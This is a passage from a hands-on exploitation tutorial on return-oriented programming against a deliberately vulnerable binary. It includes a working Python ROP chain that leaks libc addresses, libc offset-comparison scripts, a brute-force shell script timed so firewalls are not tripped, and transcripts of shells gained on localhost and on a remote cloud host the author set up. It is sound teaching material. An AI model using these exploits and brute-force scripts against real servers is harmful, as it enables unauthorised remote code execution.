(rop) hacker@kali:~$ echo $PPID
3345
(rop) hacker@kali:~$ ps -ef | grep bash
hacker 3352 3345 0 17:43 pts/0 00:00:00 -bash
hacker 3442 3345 0 17:43 pts/1 00:00:00 -bash
hacker 7317 3345 0 22:17 pts/2 00:00:00 -bash
hacker 8012 3352 0 22:53 pts/0 00:00:00 grep bash
(rop) hacker@kali:~$
9.5.4.3. Serving the exploit over localhost:8080¶
Here is the second of 2 examples of running the exploit on your local host, this time over the network. The target “server” is set up in one terminal window using sudo -u nobody socat tcp4-listen:8080,bind=127.0.0.1,reuseaddr,fork exec:./prog, running prog on port 8080. The second client terminal window connects to the server via cat input - | socat - tcp4:127.0.0.1:8080. The final exploit on a target server will work similarly to this exploit, the only differences being the IP address used and the different offsets within their libc (more on that later).
We start setting up the server in terminal window 1:
# Do this from a different terminal window.
# Mimick the target server
sudo -u nobody socat tcp4-listen:8080,bind=127.0.0.1,reuseaddr,fork exec:./prog
Then we start up the client in terminal window 2:
# Send the expoit data over the network
cat input - | socat - tcp4:127.0.0.1:8080
That gets us a prompt-less shell on the server from terminal window 2:
(rop) hacker@kali:~$ # Send the expoit data over the network
(rop) hacker@kali:~$ cat input - | socat - tcp4:127.0.0.1:8080
Select from the menu?
1. Choice one?
2. More choices?
3. Something else to choose??
>
Almost there ... expand your horizons.
> Not enough ... you must really try more before your success.
>
Now the client can continue executing from terminal window 2:
whoami
id
exit
Running the above results in closing out the exploit from window 2:
> whoami
nobody
id
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
exit
Finally, use control-C to terminate the server session on terminal 1:
hacker@kali:~$ sudo -u nobody socat tcp4-listen:1984,bind=127.0.0.1,reuseaddr,fork exec:./prog
^C
hacker@kali:~$
9.5.5. libc offsets¶
9.5.5.1. Which libc?¶
What has been shown? When we know the libc offsets we can generate an exploit and get a shell. While they are known for a localhost, knowing them for a remote server is another thing.
libc offsets can change with every patch and differ even more between Linux distributions. Attacking a remote server running the vulnerable program involves these steps:
- Do some reconnaisance to determine a “smallish” range of possible values for the offset.
- Determining the cloud hosting provider (if one is used) and look at the offsets for their possible Linux distributions.
- Change the exploit payload to instead collect some libc offset info. Compare that information to libc offsets of the major Linux distributions (CentOS, Debian, Ubuntu, …).
- Once a likely range of libc offsets is determined, write a bash script to loop through a range of possible libc offsets until success.
9.5.5.2. Setting up the vulnerable host in GCE¶
To understand how to attack the vulnerable app, first set up the server on a cloud VM. In this case we’ll do it using Google Compute Engine and Debian 9.
# SSH to the instance
ssh -i ~/.ssh/id_gce_jim.maki hacker@meetup.bitbender.org
mkdir -p vuln
cd vuln
curl -o file https://sbwasp.github.io/_downloads/file
cat file | base64 -d > prog
chmod +x prog
sudo -u nobody nohup socat tcp4-listen:8080,reuseaddr,fork exec:./prog > /tmp/nohup_8080 &
To demonstrate it can be remotely attacked, compute the offset on the vulnerable server. Of course in a real attack you wouldn’t be given this information, but we’ll demonstrate later how to overcome this.
curl -o libc-offset.sh https://sbwasp.github.io/_downloads/libc-offset.sh
chmod +x libc-offset.sh
./libc-offset.sh ./prog execve puts
Running this shows that offset is 0x51dd0 vs locally 0x56cc0 for a ratio of 0.943.
hacker@meetup:~/vuln$ ./libc-offset.sh ./prog execve puts
0x51dd0
Use 0x51dd0 from your local computer to get a shell on the vulnerable server:
source activate rop # if not already activated
./create-payload.py 0x51dd0 > input-0x51dd0
cat input-0x51dd0 - | socat - tcp4:meetup.bitbender.org:8080
whoami
id
Running this results in a shell on the vulnerable server:
(rop) oresama@backup:tmp$ ./create-payload.py 0x51dd0 > input-0x51dd0
(rop) oresama@backup:tmp$ cat input-0x51dd0 - | socat - tcp4:meetup.bitbender.org:8080
Select from the menu?
1. Choice one?
2. More choices?
3. Something else to choose??
>
Almost there ... expand your horizons.
> whoami
nobody
id
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
Of course the vulnerable server is not accessible to determine the offset 0x51dd0. How might this be overcome?
9.5.5.3. First try to determine the OS/version¶
If you know the OS and version you can get an estimate of the offset. There are a number of ways a pentester might proceed.
One way is to use DNS to finds out who owns the IP:
whois $(dig +short meetup.bitbender.org)
This reveals that the IP is owned by Google, so we could guess that it hosted somewhere at Google. If Google Compute Engine, then it’s likely one of the GCE Images. For each of these images, create a VM and measure the offset both before and after patches, resulting in a range of offset values for exploit. And that would result in success as the vulnerable server is a Debian 9 image from GCE.
9.5.5.4. Do a reconnaissance exploit¶
Another approach is to change the exploit payload to instead print out some information about the server, in this case the puts offset in libc.
9.5.5.4.1. From bash shell exploit to printf reconnaissance¶
We write a reconnaisance exploit: instead of doing the buffer overflow exploit we can use printf to output the actual addresses of puts and __libc_start_main on the vulnerable server. Given those addresses we can compare them to other libc’s corresponding values to see which one is most like the vulnerable server’s libc. Here is the reconnaisance exploit coded completely in python. (The main exploit only used python to create the input file, which was cat-ed via a pipe to socat. Here, no cat is needed.)
Download libc-recon.py and make it executable (chmod +x libc-recon.py):
#!/usr/bin/env python
# Hardcoded to get __libc_start_main and puts runtime addresses.
# printf excluded as address ended in whitespace "0c".
import argparse
import socket
import struct
import time
import sys
import re
def p(addr):
return struct.pack('<L', addr)
def expose_addrs(ip, port):
# Choose the stage1addr >= .data section address 0x0804a018
stage1addr = 0x0804aa24
# __libc_start_main@PLT 0x0804838c ==> GOT entry 0x0804a004
libc_GOT = 0x0804a004
# puts@plt 0x080483cc ==> GOT entry 0x0804a014
puts_GOT = 0x0804a014
# **************************************************************************
# Connect to remote host and receive the input menu
# **************************************************************************
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))
menu = s.recv(1024)
# **************************************************************************
# Answer first question and receive the response
# **************************************************************************
s.send("57\n")
prompt = s.recv(100)
# **************************************************************************
# Build then send stage 0 buffer and receive response
# **************************************************************************
exploit = []
# Fill up callee stack
exploit.append("X"*267)
# Call scanf to copy stage 1 into ~ .data
# scanf address = 0x080483bc
exploit.append(p(0x080483bc))
# Get rid of 2 scanf arguments, gadget 0x8048462L: pop ebx ; pop ebp ;;
exploit.append(p(0x8048462))
# 1st arg = 0x08048707, pointer to %s
exploit.append(p(0x08048707))
# 2nd arg = stage1addr, pointer into .data
exploit.append(p(stage1addr))
# After scanf, use leave to switch to stage 1 just read in
# pop .data address into ebp so leave will set esp to stage 1 in .data
# use gadget 0x8048463L: pop ebp ;; to pop .data
exploit.append(p(0x08048463))
exploit.append(p(stage1addr))
# use gadget 0x804836aL: leave ;; to branch to stage 1
# key to this is that .data is at a fixed address
exploit.append(p(0x804836a))
exploit.append("\n")
s.send("".join(exploit))
# Response doesn't send flush so s.recv(70) here hangs
# **************************************************************************
# Build then send stage 1 buffer
# **************************************************************************
exploit = []
# Stage 0 leave returns here, so this is pop'ed into ebp
exploit.append("junk")
# call 80483ac <printf@plt> in main @ 0x804853f
exploit.append(p(0x0804853f))
# arg1 = pointer to format string below
exploit.append(p(stage1addr + 4*5))
# arg2 = address of __libc_start_main GOT pointer
exploit.append(p(libc_GOT))
# arg3 = address of puts GOT pointer
exploit.append(p(puts_GOT))
# arg1 format string
# address = stage1addr + (4*5)
# NOTE: two potential problems:
# (1) whitespace in address could terminate string early
# (2) if no NULL near address could get lots of data
exploit.append("===libc===%s===puts===%s\n")
s.send("".join(exploit))
answer = s.recv(2512)
libc_answer = answer[answer.find("===libc===")+10:][0:4]
puts_answer = answer[answer.find("===puts===")+10:][0:4]
libc = struct.unpack('<L', libc_answer)[0]
puts = struct.unpack('<L', puts_answer)[0]
return(libc, puts)
if __name__ == "__main__":
parser = argparse.ArgumentParser(description="Display puts libc offset")
parser.add_argument("ip", help="remote IP address")
parser.add_argument("port", help="remote port")
args = parser.parse_args()
ip = args.ip
port = int(args.port)
(libc, puts) = expose_addrs(ip, port)
print("puts = " + hex(puts))
print("libc = " + hex(libc))
print("puts offset = " + hex(puts - libc))
exit()
A word of warning about this reconnaissance: the application segfaults and a simple sudo dmesg | tail shows the segfault. Anybody doing log analysis will pick up the fact that something is going wrong.
9.5.5.4.2. Testing the reconnaissance locally¶
We first run the exploit locally, getting the correct offset for puts in libc. First, in a separate terminal start up our local “server”:
hacker@kali:~$ socat tcp4-listen:8080,bind=127.0.0.1,reuseaddr,fork exec:./prog
and then in a separate window run libc-recon.py '127.0.0.1':
hacker@kali:~$ ./libc-recon.py '127.0.0.1' 8080
puts = 0xf7d71160
libc = 0xf7d226a0
puts offset = 0x4eac0
Remember to go and kill the local “server”. This offset 0x4eac0 is exactly that produced by ./libc-offset.sh ./prog puts __libc_start_main:
hacker@kali:~$ ./libc-offset.sh ./prog puts __libc_start_main
0x4eac0
9.5.5.4.3. Vulnerable server reconnaissance¶
Next we run it against the vulnerable server to get puts’s offset in libc.
hacker@kali:~$ ./libc-recon.py meetup.bitbender.org 8080
puts = 0xf757d880
libc = 0xf7536180
puts offset = 0x47700
This shows the puts offset is 0x47700 in GCE and locally 0x4eac0, or a ratio of 0.908. We could use this to predict the offset of execve from puts: 0.908 * 0x56cc0 = 0x4ed00 (rounded from 0x4ecfc) vs the actual 0x51dd0. Since libc routine addresses are a multiple of 16 (last 4 bits are 0), then the guess if off by (0x51dd0 - 0x4ed00)/16 = 781, or 781 steps away from the initial guess. If you started at 0x4ed00 and made steps of 16 above & below the starting value, you would find the offset after 781 * 2 + 1 = 1563 steps. So we would have to run a little under 1600 brute force guesses before success.
We could improve our initial guess by doing reconnaissance of all the libc values in the vulnerable program: fflush, printf, scanf, and puts. From there we might be able to reason a better first guess. But we won’t do that here.
9.5.5.5. Major libc stats¶
9.5.5.5.1. A script to analyze libc’s¶
Another approach is to look at the major libc’s (CentOS, Debian, Ubuntu, …) and compare their numbers to those observed from the reconnaisance results above.
First download libc-offset-so.sh and make it executable (chmod +x libc-offset-so.sh):
#!/usr/bin/env bash
if [[ $# != "3" ]]; then
echo "$0 LIBC FUNC1 FUNC2"
exit
fi
LIB="$1"
FUNC1="$2"
FUNC2="$3"
set $(objdump -T $LIB | grep " __libc_start_main$" | head -n 1)
printf -v Olibc "0x%x" 0x$1
set $(objdump -T $LIB | grep " $FUNC1$" | head -n 1)
printf -v O1 "0x%x" 0x$1
set $(objdump -T $LIB | grep " $FUNC2$" | head -n 1)
printf -v O2 "0x%x" 0x$1
printf -v offset1 "0x%x\n" $(( O1 - O2 ))
printf -v offset2 "0x%x\n" $(( O2 - Olibc ))
echo $FUNC1 = $O1
echo $FUNC2 = $O2
echo offset $FUNC1 - $FUNC2 = $offset1
echo offset $FUNC2 - libc = $offset2
9.5.5.5.2. Debian 9 libc¶
First use libc-offset-so.sh to analyze the Debian 9 libc Package: libc6 (2.24-11+deb9u1). (Note: .deb and .udeb package files can be extracted using ar p DEBFILE data.tar.xz | tar -Jx.):
mkdir libc_debian9
cd libc_debian9
curl -s -O \
http.us.debian.org/debian/pool/main/g/glibc/libc6-udeb_2.24-11+deb9u1_i386.udeb
ar p libc*.udeb data.tar.xz | tar -Jx
cd ..
./libc-offset-so.sh "$(find libc_debian9 -name 'libc-*so')" \
execve puts
Running the above gets us:
hacker@kali:~$ mkdir libc_debian9
hacker@kali:~$ cd libc_debian9
hacker@kali:~/libc_debian9$ curl -s -O \
> http.us.debian.org/debian/pool/main/g/glibc/libc6-udeb_2.24-11+deb9u1_i386.udeb
hacker@kali:~/libc_debian9$ ar p libc*.udeb data.tar.xz | tar -Jx
hacker@kali:~/libc_debian9$ cd ..
hacker@kali:~$ ./libc-offset-so.sh "$(find libc_debian9 -name 'libc-*so')" \
> execve puts
execve = 0xb16d0
puts = 0x5f870
offset execve - puts = 0x51e60
offset puts - libc = 0x476f0
9.5.5.5.3. Ubuntu 16.04 LTS libc¶
Next analyze the Ubuntu 16.04 LTS libc offset.
mkdir libc_ubuntu_16.04
cd libc_ubuntu_16.04
curl -s -O \
http://security.ubuntu.com/ubuntu/pool/main/g/glibc/libc6-i386_2.23-0ubuntu10_amd64.deb
ar p libc*.deb data.tar.xz | tar -Jx
cd ..
./libc-offset-so.sh "$(find libc_ubuntu_16.04 -name 'libc-*so')" \
execve puts
Running this results in:
hacker@kali:~$ mkdir libc_ubuntu_16.04
hacker@kali:~$ cd libc_ubuntu_16.04
hacker@kali:~/libc_ubuntu_16.04$ curl -s -O \
> http://security.ubuntu.com/ubuntu/pool/main/g/glibc/libc6-i386_2.23-0ubuntu10_amd64.deb
hacker@kali:~/libc_ubuntu_16.04$ ar p libc*.deb data.tar.xz | tar -Jx
hacker@kali:~/libc_ubuntu_16.04$ cd ..
hacker@kali:~$ ./libc-offset-so.sh "$(find libc_ubuntu_16.04 -name 'libc-*so')" \
> execve puts
execve = 0xaf590
puts = 0x5f140
offset execve - puts = 0x50450
offset puts - libc = 0x46c00
9.5.5.5.4. Centos 7 libc¶
For the Centos 7 i386 libc:
# rpm needs rpm2cpio to unpack
sudo apt install rpm2cpio -y
# get offsets for centos7 libc
mkdir libc_centos7
cd libc_centos7
curl -s -O \
http://mirrors.usc.edu/pub/linux/distributions/centos/7/updates/x86_64/Packages/glibc-2.17-196.el7_4.2.x86_64.rpm
rpm2cpio glibc-*.rpm | cpio --quiet -idm
cd ..
./libc-offset-so.sh "$(find libc_centos7 -name 'libc-*so')" execve puts
Running the above gets us:
hacker@kali:~$ # rpm needs rpm2cpio to unpack
hacker@kali:~$ sudo apt install rpm2cpio -y
Reading package lists... Done
Building dependency tree
Reading state information... Done
rpm2cpio is already the newest version.
0 upgraded, 0 newly installed, 0 to remove and 0 not upgraded.
hacker@kali:~$
hacker@kali:~$ # get offsets for centos7 libc
hacker@kali:~$ mkdir libc_centos7
hacker@kali:~$ cd libc_centos7
hacker@kali:~/libc_centos7$ curl -s -O \
> http://mirrors.usc.edu/pub/linux/distributions/centos/7/updates/x86_64/Packages/glibc-2.17-196.el7_4.2.x86_64.rpm
hacker@kali:~/libc_centos7$ rpm2cpio glibc-*.rpm | cpio --quiet -idm
hacker@kali:~/libc_centos7$ cd ..
hacker@kali:~$ ./libc-offset-so.sh "$(find libc_centos7 -name 'libc-*so')" execve puts
execve = 0xbf550
puts = 0x6cf20
offset execve - puts = 0x52630
offset puts - libc = 0x4b410
9.5.5.5.5. libc summary and a guess¶
We see the libc’s execve / puts offset ratio is around 1.09 or 1.14 (depending on the distribution):
| libc distribution | puts - libc start | execve - puts | ratio |
|---|---|---|---|
| Debian 9 | 0x000476f0 | 0x00051e60 | 1.15 |
| Ubuntu 16.04 LTS | 0x00046c00 | 0x00050450 | 1.13 |
| CentOS 7 | 0x0004b410 | 0x00052630 | 1.09 |
| vuln server | 0x00047700 | 0x0004dde0 ? | 1.09 ? |
| vuln server | 0x00047700 | 0x00051700 ? | 1.14 ? |
So we pull a guess of 0x51700 assuming Ubuntu/Debian server. The guess from the reconnaissance program was 0x4ed00. Given the actual answer is 0x51dd0, this guess is far better. It’s low by 109 guesses, meaning a search centered around the guess would take 219 guesses before success - a huge reduction in the search space.
9.5.5.6. Brute force vulnerable server search¶
So now we must show how to search an offset range. Since we don’t want to trip off firewalls, the attempts will be spaced 30 seconds apart, and waiting for 219 guesses (a little under 2 hours) is a bit long for our demo. So we’ll start with the range [0x00051db0, 0x00051de0] to save time.
Here’s a script that runs over a range of libc offsets trying to find the correct offset. Download search-range.sh and make it executable (chmod +x search-range.sh). Note that it waits waits 30 seconds between tries. (If you don’t wait some amount of time between attempts you’ll find yourself locked out of the site for some time.)
#!/usr/bin/env bash
# Run a test over a range of libc offsets.
# Stop when get success or run out of libc offsets.
# Assume offset mod 16 = 0.
[[ $# != 1 && $# != 2 ]] && { echo "Usage: $0 START [STOP]"; exit; }
START=$1
STOP=$START
[[ $# == 2 ]] && STOP=$2
[[ $1 -gt $2 ]] && { echo "START $1 is not less than STOP $2"; exit; }
REMHOST=meetup.bitbender.org
PORT=8080
for (( s=$START; s<=$STOP; s=$((s + 16)) )); do
printf -v offset "0x%x" $s
echo Testing $offset
result=$( (./create-payload.py $offset ; sleep 5; echo "echo hello; echo exit;" ) | \
socat - tcp4:$REMHOST:$PORT)
[[ "$result" =~ hello ]] && { echo success at $offset; exit; }
sleep 25
done
Running the above search over the interval [0x00051db0, 0x00051de0] found the actual correct value of 0x51dd0. Now we can get a shell on the vulnerable server.
(rop) hacker@kali:~$ ./search-range.sh 0x00051db0 0x00051de0
Testing 0x51db0
Testing 0x51dc0
Testing 0x51dd0
success at 0x51dd0
(rop) hacker@kali:~$ ./create-payload.py 0x51dd0 > input-0x51dd0
(rop) hacker@kali:~$ cat input-0x51dd0 - | socat - tcp4:meetup.bitbender.org:8080
Select from the menu?
1. Choice one?
2. More choices?
3. Something else to choose??
>
Almost there ... expand your horizons.
> id
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
hostname
meetup
# powned
exit
(rop) hacker@kali:~$
9.5.6. Understanding ROP¶
Here are some key concepts that you should understand now that you’ve seen the exploit:
Now you can see why it’s called ROP (return-oriented programming).
Everthing in the exploit is either: a pointer to a libc routine’s PLT entry (return-to-libc), a pointer to a libc routine’s PLT entry whose GOT has been modified to point to a different libc routine (return-to-GOT), a gadget (which I’ll call return-to-gadget), the address of some data needed as an argument, or rarely data (“/bin/bash” here).
You cannot put plain assembly instructions in the exploit because every elf library section is either executable or writable, but not both.
So wherever you read in your payload can’t be memory that allows direct execution. However, like the stack it can be a pointer to code.
You should understand the different roles of
leaveandretin returning from a subroutine.Basically,
leavesets the stack registers ebp & esp back up, andretbranches to the return address saved on the stack. The stack starts in high memory and grows downward as routines are called, and shrinks back up as they return. The “base pointer” ebp points to a routine’s top of the stack and is right below the caller routine’s stack frame. The “stack pointer” esp points to the business end of the stack where items can be pushed & popped.Before a subroutine is called, the caller pushes the calling arguments onto the stack then call‘s the subroutine. The
callinstruction pushes the return address onto the stack (and theretwill pop it off and jump there). It’s up to the callee routine to set up their own stack and restore the caller’s stack before returning to the caller. Here’s how it’s done. The callee pushes the caller’s ebp on the stack (saving it right where the callee’s stack starts) and so now esp points to that stack entry (the first belonging to the callee). That’s the where the callee’s base pointer should point to and this is done by the mov ebp,esp instruction. So the callee’s stack base pointer ebp is now correct. Next the callee subtracts the amount of memory needed in the callee routine from esp to get the correct amount of stack memory dedicated to the callee. Now the stack pointers ebp & esp are correct for the callee to work.Eventually the callee is done and wants to return. Remember ebp now points to the callee’s stack top which has the caller’s saved ebp value. The
leaveinstruction first sets esp equal to ebp (mov esp,ebp) so they both now point to the top of the callee’s stack. Then pop ebp both set’s ebp to the proper caller’s saved base pointer, and advances esp to point to the return address.leavehas set up the stack pointers to just before thecall. Now theretinstruction pop’s the return address off the stack top and jumps there, leaving ebp and esp pointing to the correct locations for the caller.The key point to remember is that
leavesets up the stack pointers ebp & esp, whileretjumps to the return address.The exploit doesn’t use the stack pointers conventionally, and in fact esp is basically a ROP “instruction pointer” with ebp only used when needed for a
leaveinstruction.The exploit intentionally only uses
leavewhen it want’s to transfer the esp “instruction pointer” from the stack containing stage-0 to the .data section containing stage-1. Recall thatleavesets esp (our “instruction pointer”) to ebp, so when we want to continue executing in .data’s stage-1, we pop the address of .data into ebp, thenleavewill set esp to ebp (the location of .data), the followingretwill pop the first word of .data into ebp (which can be junk because we’re not using ebp), and continues on with the ROP exploit starting with returning to the second word of stage-1 (now that esp points to it).So the exploit code doesn’t have a conventional stack (ebp isn’t used) and if anything can be thought of as “executing” or “ROP-ing” from the stack. Normal code has a separate stack and code (the .text elf section). The exploit uses the esp stack pointer as its “instruction pointer” and there is no separate code section.
So the exploint only intentionally uses
leavewhen switching from one stage to another. However, sometimes you need to execute a gadget but that gadget unfortunately has aleaveinstruction. Our exploit encountered that problem. Review stage-1 and see that we set up ebp properly before the gadget in order to continue execution after theleave. Your take-away is that every time you see an exploit usingleavethere will be a prior pop ebp to indicate where to continue execution.The stack is dynamically relocated every program run. That is, except when you are using
gdb, so don’t be mislead by address stability when usinggdb.So that means stage-0 cannot point to a stack location for either calling arguments or to conintue after a
leaveinstruction. Since we need to do that we had to break the exploit into a stage-0 “payload loader” whose only job is to load the stage-1 “payload” into a location whose addresses are not changed between runs.Every
callto a libc routine with arguments returns to a gadget that pops off the arguments from the stack.The stack pointer esp is essentially our instruction pointer and the stack pointer at the same time. So when we have a pointer to a libc routine to execute, the stack must have the return address followed by the calling arguments. That return address must be a gadget that pop’s off the following calling arguments. If not, an exception will result when the arguments are attempted to be called.